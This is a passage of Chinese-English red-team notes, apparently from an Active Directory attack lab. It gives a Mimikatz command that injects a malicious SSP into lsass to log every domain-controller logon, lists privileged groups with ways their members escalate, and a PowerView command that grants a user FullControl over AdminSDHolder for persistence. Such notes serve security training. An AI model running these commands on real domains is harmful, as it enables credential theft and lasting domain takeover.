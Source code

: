 2. 使用mimikatz，注入lsass（在Server 2016和2019中不稳定）。
```
Invoke-Mimikatz -Command '"misc::memssp"'
```

# Malicious SSP
DC上的所有本地登录被记录到
```
C:\Windows\system32\kiwissp.log
```

# AdminSDHolder


• Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups).（驻留在域的系统容器中，-使用 ACL-用于控制某些内置特权组（称为受保护组）的权限 。）
• Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.（Security Descriptor Propagator (SDPROP) 每小时运行一次，并将受保护组和成员的 ACL 与 AdminSDHolder 的 ACL 进行比较，并在对象 ACL 上覆盖任何差异。）


Protected Groups包括：
```
Account Operators 
Enterprise Admins
Backup Operators 
Domain Controllers
Server Operators 
Read-only Domain Controllers
Print Operators 
Schema Admins
Domain Admins 
Administrators
Replicator
```

以下组用户都可以登录到dc
- ```Account Operators``` :Cannot modify DA/EA/BA groups. Can modify nested group within these groups.
- ```Backup Operators``` :Backup GPO, edit to add SID of controlled account to a privileged group and Restore.
- ```Server Operators``` ：Run a command as system (using the disabled Browser service)
- ```Print Operators``` ：Copy ntds.dit backup, load device drivers.

## 方法1，Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA(以DA身份使用PowerView，为一个用户增加FullControl权限到AdminSDHolder):
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser1 -Rights All -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

